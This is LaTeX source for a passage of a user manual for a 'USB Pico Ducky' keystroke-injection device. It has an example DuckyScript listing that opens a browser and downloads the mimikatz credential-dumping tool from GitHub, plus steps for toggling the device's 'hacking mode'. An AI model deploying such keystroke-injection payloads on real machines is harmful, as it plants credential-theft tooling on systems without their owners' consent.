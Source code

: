 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[htb]
\begin{small}
\begin{lstlisting}[language=Ducky]
REM wait 500ms, then update LED status once successfully installed mimikatz virus from the web
DELAY 500
WINDOWS S
STRING chrome
ENTER
STRING https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
ENTER
DELAY 300

REM once the virus downloads, turn on the LED of USB Pico Ducky
LED
\end{lstlisting}
\end{small}
\caption{LED Example}
\end{figure}

\newpage

\section{Setup}

\subsection{Reset}

\subsubsection{When to Reset USB}

Resetting the USB turns hacking mode off. More information can be found in section \ref{hack_mode_off}. You can also reset back to the USB Pico Ducky (hacking mode) as specified in more detail in section \ref{hack_mode_on}.

\subsubsection{How to Reset USB}\label{how_to_reset}

You can reset the USB at any time, all it takes is the click of a simple button in the Duckyscript IDE (on the toolbar). The button is \includegraphics[width=5.5mm]{pictures/setup.png}. This button is at the most right on the toolbar. After clicking this button, a popup window will come up. Click the button on the middle (Select USB Pico Ducky Path), then select the path of your USB pico ducky. Now Another button will popup, if you entered the correct path, select the new button (Enable/Disable hacking mode) on the popup.
\end{document}
